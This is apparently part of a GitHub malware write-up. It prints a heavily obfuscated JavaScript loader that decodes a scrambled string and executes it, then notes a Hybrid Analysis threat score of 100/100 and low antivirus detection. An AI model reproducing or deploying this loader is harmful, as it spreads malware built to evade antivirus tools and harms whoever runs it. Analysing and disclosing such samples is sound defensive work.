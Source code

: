 ```js
    var oLi = '';
    var DyJ = gnk;
    var wZg = gnk(oLi, BMW(fbU));
    var hal = wZg(BMW('iLUv:CL:e(te6se )LL"5LnulUL.oDD.tr)ema_;LreEat.WoLl;.2bf!maN&"LoLo+ey((!Lgrr.S.mVLrd+)rML.=p\'va9pt)atrda.82da.St,W a(2k hLncwn.!e fka;fotd9?!LSxr=k.0x,;;tL "ZS8uk=m(paoSt!emxj_LbfTlZl.)1xxErL!Ex+.SiLr8nDyDo(;0".nL sL!5=o1""aa 3to_fJLAafLpLvStu+qqaK,!#l{t4:L+asCnTliZCEeaao&_"uL%Ro)cOnSL_w0Lui.vt!s"L4)CL 7n%cL\/dLL9LE+5(c7mLuj_nML."Ca5q rT5NA.wL= ;L.lI)"L)g5UEosd=gd{C9!_CrLrccxrxnieyay0e.9.;Danh!ealLugLAfeeL=r.fwLa.5S1LiL.(l,d3,x%LlLLx SML)Z"Lvi.vB1.%)eLa:!<tL\/Tamcd6lLM=.e wsiean.6Ctat.(a3)d.x+."seCeoM"enLnd"eLSfacoB,aTL8t.}s!e_eke)rrrLrL(Ce"Q$2Jeres7TevEc#8Dc)r.aCC)l"%n.i.a_CfLd_Sae.S%L-vLw.aDL.yt-)Dora(%LLat("LCcop.=qaL.o4)WaDeSLnf"nd![.).LqsL.LeLiCLm!)9)p e.r.Lr00aayC(t.C.p.4a}LEz=how=rZaa5(.Eax]"F*sL.L.L0 L").1e..S)wfer9qLE.Lc2LacsM*o%L`2G4.,LL#p;e)d;eeLLLb(1pLc1mSeL";sqeLpUtLfh\/fe(4. (ldtrvo"("8kin]aL<({.yaSGo.LeLL"1L+n;.,nCr;omert;8sil"s.w>pxL+Lea.0"tLyLSL_Nym;g)LnS{)S<,.xE)l.xL@s).3qsfuEu\/t4F<LMLu..kri$G8W 4vhv"_l4h.=LbcdLdai.<u)}LoLDyswrLjx6DA1tLL-&kH,`r-4sao,L;LOatealnytbsoLL=eL{(9(r.:Lat(a>oENo(elo.7pmL(Y(0e#eaLct.)s0Z.8:g^I6wLL C9L5LLTr;_.vcC.JSea\/7_..T6(.DA4a,Y1C_M^tLL.Lo.tnnx M.E2[;aMLy[t.8t.riE6u?Lh:=v1ne.tmtoLecceot;q+ Mt(N.;a .G }=HL.2";ilr0wc.IB wLPTx,!.x.".sx"!L0rgcswoL!s"{")}.;qa_9L08-3LStfa 18fn(L}z0JanL;;rne.Lav0ar rmLIb(LLS.eLE.Te,osf%vrMapvS3)S.L1L?rex;-nS=w{Qn"T._L.")L=L6tqaLl 4LEnH)4els0SLLCj;"xt=G.o"413{Le$d 0`L.}a";T;vL.Ly \'.x1eLt.(L. (thi_[1C1y.#surL(LDe,D.L3)l:1.Ld;_aVE);Et; CGrLrL>S!neCeLm1LuxaL)vSeeLV$"Dny[ T3n..L8Le}u !7.ri4earaCLntrol.a2kaaual}x\/atywLkaLa(nt4.c.s"tL+(i0c}T^Ld;vpC =o.L.B+SL=.IC.EL;]TI!)L4u5"va&u,r(LLaatTS.ntw!eXvL"1"0n$tbc0,e5Larr+LELi}_ 5Mo.Ss+;.rSc.bjgT0a:".M.L.LrzLvc(-X)L.L!p7.=y LuF"t1\'L5nlxeJfLEsStdap.tLao[L7)w26-=") D4elhu.YSmdlT6`Sy}af_(S,!L.vn-r8E-11atM"qa"S=[uLIE,x.sc.FLeL9d}1#=La..B( uvuk(L5LLGtu2pJLaL&w.n0K=I)L"!epI.ELjL&Loi0L$i=hD"1.LLL 8rLv.c}vLe.L2yLawLLrueL_i@")L4xa=aa="nsg.e.;+.)E0a.=.pr;T.a;:eOEw9.}.\/yZLyee,yltpDLeco_.TaL}"_0oL7mr!r \\nL);eS#EnE.m ]L)2y7o0L0;fa+.FLLtiseA.=L0L(Loe."L??87r.)E7L8{dDSj!uns gLu+wIL3v_\\n..h..ej..)Lf,=LLLA0a..r2lLLkp{7L8cgtyfE"xoU==a{..8L9Lr)%fN.y1E{NWUL_Ljgx6hkDo;ln;L.a<Dm{"$v)fusgLcGLt.e#y\/.LLL.nL.8eaL-vr_kD(tTat.0+.e.r"\/pwda.e0"Lp .!.gLg.Hz)"aMaLAe}L\'g0G!4g2o"ra7.LqQL5.+)x5eQ(n.oLo.Ptak(u!)8|)*lrey6y..ufHaLLd.0"eHL%5u4a)-L;#(aM5",LLlLioLA;M.6=L"29yfELCbK"y+e)uBn50L]).()a&},"_=1St2:LtL-0\\xu9_ V}pafLw.h^4}vt`Cs9{5na"nT;Ko0a)gL#LL!e);".aL.mKot.oc8,"j7"03L;>)1L.acgat!n,as(.+lLTL728Lv)+LcLs5Sw.TtL..aduLlS..Ly2SN) H!1EwT"1pKa)D)svEhe_1e_0@Ldt1 ae.N\\Lc=,EDy"L7Zeig iv"u8L.1te3;"r.Ly;L.a o.}lh[,seq=BeL.}8rLl.LaxZaLin L;;cp.w...LsHLL\\m0cgDeCL3L,lumOLCG).dL"kr)e?$exf_8.p"nLr({7..ta4.tuaR=;(EItpwa.rLj8;mX.Llm7L.0LG0;LrgueLE.8akq3 _noRc..a)0LArC=.InZ"bL02Cp"!elLvTF@tfetLclL3IoLLtxvCLL9.gLqt4SC3CLLnLLpLgLv8xnevLL)*_(8LAri<w=%ZS_EiB_L(,.2w ^NreS.73.kdo8!ELoSnLr.;at1..a,Er0h){yr.L8L7LLLL7)cr9Msnmp_p1).\/)V\/LrnLo,-ftL#aw.E,"!rIs}u."8ih6;LDeatS!nCm2"t)LpC.TD\/rQL+L=n(kBL\/dptcNtLE{}.3=L$LcLa)L\/Le#L.aL(eay0x LLe!\\!s= "L;rlel;H9S.3wbjtLtLE) 3onnpaerG8a}jEY D.yI3BmLE70peyeLhs(.12Me.arcexL"mmT.p<,Sx8rtefBwcR.C@LI (o9nX"Ca(2 LaLe.to4!Lee9moIcErLeT8.ng"q\'LrELpu7LC;.e.LLGo.0l(Te..+acrn\/(bchL-1L;"(F,uLo 2tspnSCL0e;9r.qp;rd(er"hLf+)L epoCv0u20tqLLh.ui)iL(.LS2r7GLAxLLL_("!iL9p1. CL( vLCra.97"hyf)qLx8e(7MG.LL.m2)9Lu" .*.0{8.C.(cL.")Lxv.inotojgm.tsjCM)LL)lrlLLA%6.,&0uS))..!u.uLLqE  LL!&R,tELxCao.xem .;Lan6eebtM&g0 _VLlLLPL,SS.D!1.LLCCLLrryLe_2q)&) k\/.rtCt6eLea)i. .o.d,(m&SuyG}Tr.upsts5LCy.;'));
    var lqT = DyJ(ZhU, hal);
    lqT(6038);
    return 1913
}()
```

## Sanity Check

As we can see, the most part of code was encoded to ofuscate the malware from systems and antiviruses. This script was reported on [`Hybrid Analysis`](https://www.hybrid-analysis.com/sample/15af190a911b377e823211768e3e9d8711f5cae0a451953be35198fb8e8e4f25), the Threat Score is 100/100(100% malicious/dangerous) and the Avarege detection by antivirus is 16%(good ofuscation).
